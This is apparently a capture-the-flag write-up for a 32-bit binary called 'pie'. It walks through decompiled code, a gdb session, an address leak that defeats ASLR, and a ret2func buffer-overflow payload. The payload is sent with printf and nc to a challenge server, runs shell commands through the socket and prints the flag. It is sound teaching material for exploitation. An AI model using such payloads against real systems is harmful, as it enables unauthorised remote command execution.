 pie
===

Background
----------
The goal was to retrieve the flag stored on the server

Tools used
----------
* IDA Pro
* `gdb`

Process
-------
Opening up the executable in IDA, I found that the function `handle` handled network connections, which I entered and got hexrays to decompile to:
````c
int __cdecl handle(int fd)
{
  int buf; // [sp+10h] [bp-18h]@1
  int v3; // [sp+14h] [bp-14h]@1
  int v4; // [sp+18h] [bp-10h]@1
  int v5; // [sp+1Ch] [bp-Ch]@1

  buf = 0;
  v3 = 0;
  v4 = 0;
  v5 = 0;
  sendstr(fd, "Enter your name: ");
  my_recv(fd, &buf);
  sendstr(fd, "Hello ");
  sendstr(fd, &buf);
  sendstr(fd, "!\n");
  return 0;
}
````

`my_recv` looked likely to be exploitable for this simple code, so I looked inside that:
````c
ssize_t __cdecl my_recv(int fd, void *buf)
{
  ssize_t result; // eax@3

  while ( 1 )
  {
    result = recv(fd, buf, 1u, 0);
    if ( result <= 0 )
      break;
    result = *(_BYTE *)buf;
    if ( (_BYTE)result == 10 )
      break;
    buf = (char *)buf + 1;
  }
  return result;
}
````

Wonderful, this function keeps on reading in input until it encounters a newline or EOF, obviously having a buffer overflow vulnerability.

Because DEP was turned on, I needed to find a vulnerable function to use, and conveniently, function `sistem` at address offset +0x963 contained this:
````c
int __cdecl sistem(const char *command)
{
  return system(command);
}
````

Because ASLR was turned on and this executable was relocatable, I needed to find both the stack address to use to pass a string to `sistem` and the executable base address to call `sistem`. I looked to the function `handle`'s stack:
````
-00000018 buf             db 24 dup(?)
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
````
From this, I now knew to put exactly 24 characters as input to completely fill `buf` and taking out it's terminating `NULL`, revealing both an address of the stack, the `ebp` save `s` and of the exectuable, the return address `r`.
````
$ printf 'aaaaaaaaaaaaaaaaaaaaaaaa' | nc 54.252.230.126 2345 | hexdump -C
00000000  45 6e 74 65 72 20 79 6f  75 72 20 6e 61 6d 65 3a  |Enter your name:|
00000010  20 48 65 6c 6c 6f 20 61  61 61 61 61 61 61 61 61  | Hello aaaaaaaaa|
00000020  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 f8  |aaaaaaaaaaaaaaa.|
00000030  bb e1 bf d3 9c 7f b7 04  21 0a                    |........!.|
````
This shows that the stack was located around 0xbfe1bbf8 and the executable was located around 0xb77f9cd3

I know that `handle` returns to `main` at offset +0xcd3, so calculating the difference in offsets told me that `sistem` was located at 0xb77f9963 on the server.

To find the stack address I required, which was the address four bytes following the address containing the return address so I could pass a string to `sistem`, I needed to do some live debugging to find out the difference between the stack address I aquired and the address I needed. This following `gdb` session sums it up:
````
$ gdb ./pie
<snip>
(gdb) set follow-fork-mode child
(gdb) break handle
Breakpoint 1 at 0x9d8
(gdb) r
Starting program: /path/to/pie
Listening on 0.0.0.0:2345
[New process 9925]
spawned child with pid = 9925
[Switching to process 9925]

Breakpoint 1, 0x565559d8 in handle ()
(gdb) disas handle
Dump of assembler code for function handle:
   0x565559d4 <+0>:	push   %ebp
   0x565559d5 <+1>:	mov    %esp,%ebp
   0x565559d7 <+3>:	push   %ebx
=> 0x565559d8 <+4>:	sub    $0x24,%esp
   0x565559db <+7>:	call   0x56555907 <__i686.get_pc_thunk.bx>
   0x565559e0 <+12>:	add    $0x2614,%ebx
   0x565559e6 <+18>:	lea    -0x18(%ebp),%eax
   0x565559e9 <+21>:	movl   $0x0,(%eax)
   0x565559ef <+27>:	movl   $0x0,0x4(%eax)
   0x565559f6 <+34>:	movl   $0x0,0x8(%eax)
   0x565559fd <+41>:	movl   $0x0,0xc(%eax)
   0x56555a04 <+48>:	lea    -0x21e8(%ebx),%eax
   0x56555a0a <+54>:	mov    %eax,0x4(%esp)
   0x56555a0e <+58>:	mov    0x8(%ebp),%eax
   0x56555a11 <+61>:	mov    %eax,(%esp)
   0x56555a14 <+64>:	call   0x5655590c <sendstr>
   0x56555a19 <+69>:	lea    -0x18(%ebp),%eax
   0x56555a1c <+72>:	mov    %eax,0x4(%esp)
   0x56555a20 <+76>:	mov    0x8(%ebp),%eax
   0x56555a23 <+79>:	mov    %eax,(%esp)
   0x56555a26 <+82>:	call   0x56555986 <my_recv>
   0x56555a2b <+87>:	lea    -0x21d6(%ebx),%eax
   0x56555a31 <+93>:	mov    %eax,0x4(%esp)
   0x56555a35 <+97>:	mov    0x8(%ebp),%eax
   0x56555a38 <+100>:	mov    %eax,(%esp)
   0x56555a3b <+103>:	call   0x5655590c <sendstr>
   0x56555a40 <+108>:	lea    -0x18(%ebp),%eax
   0x56555a43 <+111>:	mov    %eax,0x4(%esp)
   0x56555a47 <+115>:	mov    0x8(%ebp),%eax
   0x56555a4a <+118>:	mov    %eax,(%esp)
   0x56555a4d <+121>:	call   0x5655590c <sendstr>
   0x56555a52 <+126>:	lea    -0x21cf(%ebx),%eax
   0x56555a58 <+132>:	mov    %eax,0x4(%esp)
   0x56555a5c <+136>:	mov    0x8(%ebp),%eax
   0x56555a5f <+139>:	mov    %eax,(%esp)
   0x56555a62 <+142>:	call   0x5655590c <sendstr>
   0x56555a67 <+147>:	mov    $0x0,%eax
   0x56555a6c <+152>:	add    $0x24,%esp
   0x56555a6f <+155>:	pop    %ebx
   0x56555a70 <+156>:	pop    %ebp
   0x56555a71 <+157>:	ret
End of assembler dump.
(gdb) x/10xw $esp
0xffffd0d4:	0x56557ff4	0xffffd148	0x56555cd3	0x00000008
0xffffd0e4:	0x000003e9	0xffffd12c	0xffffd130	0x00000004
0xffffd0f4:	0x0000002f	0xffffd14c
````
The stack address I would have been shown was 0xffffd148 while the stack address I needed was 0xffffd0e4. This gives a difference between the two of -0x64.

Now I have the required information, I prepare my input:
````
aaaaaaaaaaaaaaaaaaaaaaaaaaaa ; 28 bytes of padding to the return address
\x63\x99\x7f\xb7 ; Address of function sistem at 0xb77f9963
aaaa ; Padding for fake sistem return address
\x98\xbb\xe1\xbf ; Address of following byte as the string to pass (0xbfe1bbf8 - 0x64 + 4) = 0xbfe1bb98
ls >&4\x00 ; Command to run with terminating NULL. File descriptor 4 is always the one corresponding to the network socket.
````
````
$ printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaa\x63\x99\x7f\xb7aaaa\x98\xbb\xe1\xbfls >&4\x00' | nc 54.252.230.126 2345
Enter your name: key
pie
$ printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaa\x63\x99\x7f\xb7aaaa\x98\xbb\xe1\xbfcat key >&4\x00' | nc 54.252.230.126 2345
Enter your name: 12yhEzKPaC7wWHAAtBjsUY3K6H3woG3LGw
````
